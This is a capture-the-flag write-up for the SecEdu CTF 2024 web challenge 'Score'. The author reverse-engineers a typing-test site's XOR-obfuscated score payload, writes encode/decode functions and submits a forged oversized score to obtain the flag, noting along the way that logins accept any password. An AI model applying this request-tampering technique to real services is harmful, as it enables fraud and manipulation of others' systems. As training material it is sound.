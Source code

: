 ```yaml
---
title: "Score"
description: "After a review, we found that ORG-C is hosting an unusual website on their servers... It looks like they're pretty competitive -- let's make sure they know who's boss!\n\n`http://chals.secedu.site:5007/`"
pubDate: 2024-10-01
ctf: "SecEdu CTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-secedu/icon.png"
---
```


> Original Writeup on [seall.dev](https://seall.dev/posts/seceduweek32024#score)

Visiting the site, we are shown a typing test!

![typetest.png](images/24-secedu/typetest.png)

There is also a leaderboard and a login page.

![typetestscoreboard.png](images/24-secedu/typetestscoreboard.png)

We try the credentials for `Br0kenC1ph3r23` on the login page and it works! (We later find out as long as the username is not taken the password doesn't matter...)

Ok, we have a login, let's try this test and see if we can mess with the score!

```
POST /api/score HTTP/1.1
Host: chals.secedu.site:5007
Content-Length: 120
...
{"score":"⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛"}
```

Huh..?

Some kind of weird character encoding, let's check out the JS source code of the site.

Doing some digging I find a [JS file](http://chals.secedu.site:5007/_app/immutable/nodes/2.B-bCw-im.js) with a segment of interest:
```js
const dt = (s, e) => {
        Te.set(s), Qe.set(e), qe.set(s * e), pt()
    },
    mt = () => JSON.stringify({
        wpm: f(qe),
        raw: f(Te)
    }).split("").map(e => e.charCodeAt(0)).map(e => e ^ 4401 ^ 5556 ^ 10019).map(e => String.fromCharCode(e)).join(""),
    pt = async () => {
        const s = await et("score", "POST", {
            score: mt()
        });
        s.success ? Ce.set(s.rank) : Ce.set(-1)
    }, Se = b(!1), ht = () => {
        Se.set(!1), $e(), ot()
    }, vt = () => {
        const s = D.length,
            a = f(F).reduce((n, t) => n + f(t).reduce((r, c) => r + +(c === !1), 0), 0) / s,
            l = s / 5;
        dt(l * (60 / xe), a), Se.set(!0)
    };
```

It seems to be doing some whacky XOR operation, let's make a quick decryption and encryption script for modification of the values.

```js
function decodeInput(output) {
    const decodedChars = output.split("").map(decodeChar);
    return decodedChars.join("");
}
function decodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
function encodeInput(input) {
    const encodedChars = input.split("").map(encodeChar);
    return encodedChars.join("");
}
function encodeChar(char) {
    return String.fromCharCode(char.charCodeAt(0) ^ 4401 ^ 5556 ^ 10019);
}
```

Loading those functions into the console, I try to `decodeInput()` my POST request data:
```js
> decodeInput("⏝⎄⏑⏖⏋⎄⎜⎒⎔⎈⎔⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎖⎗⎊⎄⏔⏇⏑⎄⎜⎑⎑⎈⎒⏛")
'{"wpm":42.20000000000001,"raw":77.4}' 
```

Great! Let's try making that WPM and RAW values 100!

```js
> encodeInput('{"wpm":1000.0,"raw":1000.0}')
"⏝⎄⏑⏖⏋⎄⎜⎗⎖⎖⎖⎈⎖⎊⎄⏔⏇⏑⎄⎜⎗⎖⎖⎖⎈⎖⏛"
```

Sending that in the POST request we just get first on the leaderboard but no flag... What if we overload it with a lot of `9`'s?

```js
> encodeInput('{"wpm":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99,"raw":99999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999999.99}')
"⏝⎄⏑⏖⏋⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⎊⎄⏔⏇⏑⎄⎜⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎟⎈⎟⎟⏛"
```

Sending that we get a better response:
```json
{"status":"SECEDU{definitely_not_a_robot}","success":true}
```

Flag: `SECEDU{definitely_not_a_robot}`
